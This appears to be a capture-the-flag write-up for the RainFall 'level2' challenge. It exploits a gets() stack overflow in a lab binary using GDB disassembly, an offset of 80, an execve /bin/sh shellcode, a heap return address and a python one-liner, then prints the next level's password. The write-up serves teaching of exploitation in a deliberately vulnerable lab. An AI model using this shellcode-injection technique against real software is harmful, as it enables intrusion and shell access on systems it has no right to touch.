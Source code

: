 ## level2
`level2` looks a lot like `level1`, if we run the executable found in this level it will pretty much as before wait for an input in the standart entry and then print it to the standard output, with no surprise when we examine the code with `GDB` we will find the `gets()` function within it.

The main is very simple, so we can even put it here:
```
   0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
```
The `main()` just set the function prologue, call `p()` and returns, pretty simple right? but what's is going on in `p()` it's what we are interested on. <br>
**The function __p()__** contains the `gets()` function that we can try to use to exploit as before, unfortunately here there's no `system()` call to run any `shell` so here it will be our job to create a shell injection.
Let's fire gbd with the executable.<br>
`~$ gdb -q level2`<br>
Here we can `run` the program inside `GDB` and it will wait for the input, we already know that we need to find the `offset` for the return so let's go back again to: [buffer-over-flow-generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) and grab a random pattern and feed the program with this input<br>
```
(gdb) r
Starting program: /home/user/level2/level2
[pattern]
Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
Now go back to __buffer-over-flow-generator__ and paste this address `0x37634136` in __Find the offset__ to get the offset value of `80`. <br> Here as mentioned above there is nowhere where a call to a executing the shell is made, so we will need to create it ourself.<br><br>
__Shell code__
`'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'`  source: [shell-storm](http://shell-storm.org/shellcode/files/shellcode-219.php) <br>Now that we have the code for executing the new shell `/bin/sh` lets prepare the payload to put right at the return of the `run()` function, we have found the __offset__ is `80 bytes` and our __shell code__ is only `24 bytes` long, we have *two* options to fill the remaining `56 bytes`, we can put any charater between the __shell code__ and the run() function __adddress__ or we can fill the first `56 bytes` with the `NOP` instruction, we will use the first aproach.<br>
We can see in the body of `p()` a check in the `eax` register where the return value from `gets()` is stored, if it starts with `0xb`it will print the __address__ and exit.
```
0x080484fb <+39>:	and    $0xb0000000,%eax
0x08048500 <+44>:	cmp    $0xb0000000,%eax
[...]
0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
```
We see down bellow a call to `<strdup@plt>` *(this functions is called to duplicate the input we gave to the program)* so the trick here is to put a break point at the __address__ just after the call of the `<strdup@plt>` function and get the __address__ contained in `eax` as the return of the function. <br> 
```
b *0x0804853d
Breakpoint 1 at 0x804853d
r
Starting program: /home/user/level2/level2
n
Breakpoint 1, 0x0804853d in p ()
(gdb) x/x $eax
0x804a008:	0x0000006e
```
And here we have the start __address__ for our payload *(remember the little end first)*
```
(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + 56 * 'A'  + '\x08\xa0\x04\x08')"; cat) | /home/user/level2/level2
```
 And here we go
 ```
 level2@RainFall:~$ (python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + 56 * 'A'  + '\x08\xa0\x04\x08')"; cat) | /home/user/level2/level2
1�Ph//shh/bin��PS�ᙰ
                    ̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
 ```
